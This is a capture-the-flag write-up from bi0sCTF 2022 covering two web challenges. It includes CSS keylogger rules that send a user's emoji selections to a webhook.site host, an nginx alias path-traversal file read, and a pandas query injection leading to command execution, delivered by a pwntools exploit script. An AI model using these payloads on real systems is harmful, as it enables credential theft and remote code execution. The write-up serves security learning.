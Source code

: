 # bi0sCTF 2022

URL: https://ctf.bi0s.in/

Team: Kalmarunionen

Place: 7 (of 294)

## Emo-Locker

> All new emoji-based authentication service. See if you can get the admin's emojis. 🥷

In `index.js` we see this change theme logic:

```jsx
class Main extends React.Component {
    constructor(props) {
        super(props);

        let link_obj = document.createElement("link");
        link_obj.rel = "stylesheet"
        this.state = {
            link_obj: link_obj
        };

        this.switchTheme = this.switchTheme.bind(this);
    }

    componentDidMount() {
        document.head.appendChild(this.state.link_obj);
        window.addEventListener("hashchange", this.switchTheme, false);
    }

    switchTheme() {
        this.setState((prevState) => {
            let href = `https://cdn.jsdelivr.net/npm/darkmode-css@1.0.1/${window.location.hash.replace("#", '')}-mode.css`;
            prevState.link_obj.href = href;
            return {}
        });
    }

	// ...
}
```

So we can load `http://web.chall.bi0s.in:10101/#dark` to get dark-mode.

But jsDelivr has a great feature for bypassing CSP/etc, which is the _CDN-for-any-GitHub_-feature:

> jsDelivr CDN service’s base URL is `https://cdn.jsdelivr.net/gh/{username}/{repo}/`, where you replace `{username}` with the GitHub username and `{repo}` with the repository name for the project.

So if I create repo 'hax' under my GitHub profile and add a file called 'a-mode.css', it can be loaded using: `http://web.chall.bi0s.in:10101/#../../gh/NicolaiSoeborg/hax/a`

I.e. `https://cdn.jsdelivr.net/npm/darkmode-css@1.0.1/../../gh/NicolaiSoeborg/hax/a-mode.css`

### CSS-based Keylogger

Normally one would do:

```css
input[type="password"][value$="bi0sctf{a"] {
  background-image: url("http://webhook.site/callback?data=a");
}
input[type="password"][value$="bi0sctf{b"] {
  background-image: url("http://webhook.site/callback?data=b");
}
input[type="password"][value$="bi0sctf{c"] {
  background-image: url("http://webhook.site/callback?data=c");
}
/* ... */
```

But in this case the password input field is replaced with `*` and the secret emoji sequence is stored in a local state.
When an emoji is selected, the corresponding HTML element is cleared so the emoji can only be picked once. We can use the CSS selector `:empty` to find these elements, i.e. `span[role="img"][aria-label="1"]` is the first emoji and `span[role="img"][aria-label="1"]:empty` is the selector for when the emoji is picked.

Using this we change the `a-mode.css` file to:

```css
span[role="img"][aria-label="1"]:empty { background-image: url("https://webhook.site/cb…61?data=1"); }
span[role="img"][aria-label="2"]:empty { background-image: url("https://webhook.site/cb…61?data=2"); }
span[role="img"][aria-label="3"]:empty { background-image: url("https://webhook.site/cb…61?data=3"); }
span[role="img"][aria-label="4"]:empty { background-image: url("https://webhook.site/cb…61?data=4"); }
span[role="img"][aria-label="5"]:empty { background-image: url("https://webhook.site/cb…61?data=5"); }
span[role="img"][aria-label="6"]:empty { background-image: url("https://webhook.site/cb…61?data=6"); }
span[role="img"][aria-label="7"]:empty { background-image: url("https://webhook.site/cb…61?data=7"); }
/* ... */
```

And watch the requests coming in whenever an emoji is selected.
The secret sequence is "51,32,73,34,85,126,17,158,79,50" (😔 🫢 😕🤫😧🙊🤩💬😯😌) which we can use to login ourself and get the flag: `bi0sctf{a34522e2009192570c840f931e4c3c0a}`

## PyCGI

> Hope its working. Can you check?

We get the following nginx config (simplified):

```nginx
http {
    sendfile        on;

    server {
        listen       8000;
        server_name  localhost;

        location / {
                autoindex on;
                root /panda/;
        }

        location /cgi-bin/ {
                gzip off;
                auth_basic           "Admin Area";
                auth_basic_user_file /etc/.htpasswd;

                include fastcgi_params;
                fastcgi_param SCRIPT_FILENAME /panda/$fastcgi_script_name;
        }

        location /static {
                alias /static/; 
        }
    }
}
```

We see that it has a common misconfiguration: the `alias` block is missing a tailing slash in the location specifier!
This means we can request `http://instance.chall.bi0s.in:10438/static../etc/.htpasswd` which isn't normalized so we can fetch files 'one dir up', luckily a dir up is the root, so we can fetch `/etc/.htpasswd`.

The password hash stored in .htpasswd is: `admin:$apr1$usrUW0sL$XToLdRz.YCRy5TCvpI8UK0`. Initially we could not crack it, but my teammate spotted something odd in `/docker-entrypoint.sh`:

```bash
mv flag.txt $(head /dev/urandom | shasum | cut -d' ' -f1)

htpasswd -mbc /etc/.htpasswd admin Â­

spawn-fcgi -s /var/run/fcgiwrap.socket -M 766 /usr/sbin/fcgiwrap 

/usr/sbin/nginx

while true; do sleep 1; done
```

What is that weird Â? It is the password! (non-printable in my terminal). Byte sequence: `\xc2\xad`.

Status so far:
 * We can read arbitrary files due to nginx misconfiguration
 * We can run scripts in `cgi-bin/` with Basic Authentication
 * Flag has a randomized filename, so we need RCE to get it

### CGI scripts

In the cgi-bin folder we see a script called `search_currency.py`:

```python
from server import Server
import pandas as pd

try:
    df = pd.read_csv("../database/currency-rates.csv")
    server = Server()
    server.set_header("Content-Type", "text/html")
    params = server.get_params()
    assert "currency_name" in params
    currency_code = params["currency_name"]
    results = df.query(f"currency == '{currency_code}'")
    server.add_body(results.to_html())
    server.send_response()
except Exception as e:
    print("Content-Type: text/html")
    print()
    print("Exception")
    print(str(e))
```

It uses a very simple home-made python server to serve requests.
We can send a `currency_code` parameter which will be injected directly to a `DataFrame.query` statement.

Underneath the hood, `.query` uses `pandas.eval` which some people believe is safe:

> "`pandas.eval` is not as dangerous as it sounds. Unlike python’s eval `pandas.eval` cannot execute arbitrary functions.

But this is not true!
We can use `@` to reference local variables, so e.g. this would work:

```python
import os

currency_code = "DKK' or @os.system('ls') or '1' == '1"
df.query(f"currency == '{currency_code}'")
```

But we don't have `os` imported as a local variables :/
Instead we can try with reflections:
 * `@df.__class__.__init__.__globals__['__builtins__']['exec']('import os; os.system("ls")')`

Or even better, my teammate also found this short path to `os`:
 * `@pd.io.common.os.system('ls')`

Finally we needed to make a raw HTTP request because the server didn't URL decode parameters.
Exploit is:

```python
from pwn import *

io = remote("instance.chall.bi0s.in", 10889, level="debug")
io.send(b"""\
GET /cgi-bin/search_currency.py?currency_name={}'.format(@pd.io.common.os.system('ls /'))# HTTP/1.1
Host: instance.chall.bi0s.in:10889
Authorization: Basic YWRtaW46wq0=

""")

io.interactive()
```

This turns: `df.query(f"currency == '{currency_code}'")` into `df.query(f"currency == '{}'.format(@pd.io.common.os.system('ls /'))#'")`.

Flag: `bi0sctf{9a18559a42e7302b15eeb45c09ab39d6}`
